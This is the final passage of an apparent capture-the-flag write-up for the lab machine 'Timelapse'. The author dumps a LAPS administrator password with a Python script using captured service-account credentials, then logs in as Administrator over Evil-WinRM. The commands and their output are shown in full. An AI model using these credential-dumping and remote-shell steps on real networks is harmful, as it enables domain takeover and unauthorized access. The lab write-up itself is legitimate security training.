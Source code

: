 LAPSDumper is python script to dumps temporary admin password which we will use to login as Administrator.   

```bash
└─$ python3 laps.py -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -d timelapse.htb
LAPS Dumper - Running at 08-16-2022 12:18:37
DC01 ,B]0+G#3{+5CDD2t+O,Aj(Q4
```

```bash
└─$ evil-winrm -i 10.10.11.152 -u Administrator -p ',B]0+G#3{+5CDD2t+O,Aj(Q4' -S

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

That was it. See you next writeup.